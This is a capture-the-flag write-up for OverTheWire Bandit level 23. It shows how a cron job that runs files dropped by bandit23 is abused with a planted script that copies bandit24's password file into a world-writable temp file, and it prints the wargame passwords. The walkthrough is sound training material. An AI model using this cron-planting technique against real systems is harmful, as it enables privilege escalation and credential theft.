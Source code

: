 # Bandit 23

### Content
- **[Overview](#Overview)**
- **[Connecting](#Connecting)**
- **[Looking Around](#Looking-Around)**


## Overview

-----------------
On the OverTheWire/Bandit website, we are told how connecting to the bandit server as a specific user works.

Each user corresponds to a different level:
- Bandit0 -> Level 0
- Bandit1 -> Level 1
- ...
- Bandit33 -> Level 33

Each level is hiding a flag, which is used as the password for the following level. Meaning, one must solve `Level n` to play `Level n+1`.

We always start out connecting to the `bandit.labs.overthewire.org` server on `port 2220` for each level.
Again, the users on the server specifies the level. Each starting point is the same:

``` commandline
┌──(francis㉿ghost)-[~]
└─$ ssh bandit{level}@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

bandit{level}@bandit.labs.overthewire.org's password: 
```

The password will always be the flag of the previous level.


## Connecting

--------------

We can establish a connection with the server via ssh, and using the password `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`:

``` commandline
┌──(francis㉿ghost)-[~]
└─$ ssh bandit23@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

bandit23@bandit.labs.overthewire.org's password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G


      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<snip>

bandit23@bandit:~$ 
```

## Task

--------------

A program is running automatically at regular intervals from cron, the time-based job scheduler. 
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. 
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Looking Around

--------------
We first start by looking around the home directory, as we have no idea what is going on. We will use the command `ls`,
which allows us to `list` the content of the current directory (or specified directory).

``` text
bandit23@bandit:~$ ls
bandit23@bandit:~$
```

Let's check the `/etc/cron.d` directory and take a look at the `cronjob_bandit24`.

``` commandline
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Like the previous level, let's check out the `cronjob_bandit24.sh` file.

``` commandline
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done
```

Alrighty. We are given a very interesting bash script. Apparently, if the owner of the file is `bandit23`, then the script
will try to execute that particular program. Additionally, we ignore `.` and `..` directories, because that would suck if we 
deleted those. 
         
Let's first look at the syntax for `cron tables`. The display below was taken from the `man 5 crontab`. 

``` commandline
<snip>
Example of job definition:
.---------------- minute (0 - 59)
|  .------------- hour (0 - 23)
|  |  .---------- day of month (1 - 31)
|  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
|  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
|  |  |  |  |
m h dom mon dow usercommand
17 * * * *  root  cd / && run-parts --report /etc/cron.hourly
25 6 * * *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * *  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
<snip>
```

There are 5 asteriks in each line, which represent a *make-shift* clock for the execution that particular command.
For instance, the first column stands for the minutes **AFTER** the `0th` minute, meaning `m` minutes after the beginning
of each hour. However, if we just have an asteriks we execute the program every minute. 

Let's take the `3rd` command in the `crontab` above and analyze when it executes and by who.

``` commandline
47 6 * * 7  root  test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```

This command will execute every `sunday` at the `6th hour` of the day and the `47th minute` of the hour, by the root user.
So, it will execute **every sunday at 6:47am by root user**.


Now, let's analyze the actual `crontab` file on the server.

``` commandline
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Alright. So we have a script that gets run `every minute` by user `bandit24`. Since we have analyzed the script above, we know
that if the owner of a file is `bandit23` in the directory `/var/spool/bandit24/foo` then the file gets executed by user `bandit24`.

This is actually very interesting, because that means we can create a file as user `bandit23` and move it to directory
`/var/spool/bandit24/foo` to have the file be executed. `bandit24` would have access to the password file of `bandit24`,
so we can have the `crontab` read the password for us and write it to a file that we can read. 

Let's create a temporary directory using the `mktemp -d` command. Let's make this directory accessible to everyone via `chmod 777`. 
This is not recommended for general directories, but we are hackers and need the flag **quickly**.

``` commandline
bandit23@bandit:~$ mktemp -d
/tmp/tmp.02TwNDCOOI
bandit23@bandit:~$ cd /tmp/tmp.02TwNDCOOI
bandit23@bandit:/tmp/tmp.02TwNDCOOI$ chmod 777 /tmp/tmp.02TwNDCOOI
```

We also need to create two more files: password and trojan_horsey.sh

``` commandline
bandit23@bandit:/tmp/tmp.02TwNDCOOI$ touch password trojan_horsey.sh
bandit23@bandit:/tmp/tmp.02TwNDCOOI$ chmod 777 password ./trojan_horsey.sh 
bandit23@bandit:/tmp/tmp.02TwNDCOOI$ ls
password  trojan_horsey.sh
```

Alright. We have the two files. Let's create our super magical hacker script in the `trojan_horsey.sh` file via `nano`.

``` commandline
#! /bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.02TwNDCOOI/password
```

Now we `copy` the file to the `/var/spool/bandit24/foo` directory and see what happens.

``` commandline
bandit23@bandit:/tmp/tmp.02TwNDCOOI$ cp trojan_horsey.sh /var/spool/bandit24/foo/trojan_horsey.sh
bandit23@bandit:/tmp/tmp.02TwNDCOOI$ ls -l password 
-rwxrwxrwx 1 bandit23 bandit23 33 Sep 24 19:22 password
```

Woow. It looks like we got something in the file. Let's print it out.

``` commandline
bandit23@bandit:/tmp/tmp.02TwNDCOOI$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

Boom. We got the flag for the level.


